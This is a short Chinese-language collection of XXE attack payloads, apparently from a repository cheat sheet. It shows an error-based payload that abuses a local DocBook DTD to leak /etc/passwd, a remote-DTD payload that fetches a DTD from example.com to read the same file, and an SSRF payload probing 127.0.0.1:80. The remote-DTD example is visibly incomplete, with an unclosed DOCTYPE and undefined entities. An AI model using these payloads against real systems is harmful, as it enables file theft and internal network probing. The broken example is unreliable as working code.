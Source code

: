 

#### XML加载本地DTD报错回显payload

> 这个办法你首先得找到一个目标服务器上已存在的dtd文件
>
> 比如有些linux系统中存在：`/usr/share/yelp/dtd/docbookx.dtd`这个文件

```DTD
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    
    <!ENTITY % condition 'aaa)>
      	<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
     		<!ENTITY aa (bb'>
    '>
    %local_dtd;
]>
<message>any text</message>
```



#### 通过加载远程DTD报错回显payload

**XML文件如下所示**

```DTD
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY % remote SYSTEM "http://example.com/remote.dtd">
    <!ENTITY % aaa SYSTEM "file:///etc/passwd">
    %remote;
    %bbb;
    %ccc;
]
```

**远程DTD文件如下所示**

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY date  SYSTEM ':%file;'> ">
```



### XXE 之 SSRF

**SSRF端口探测示例**

```DTD
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY ssrf SYSTEM "http://127.0.0.1:80">
]>
<x>&ssrf;</x>
```
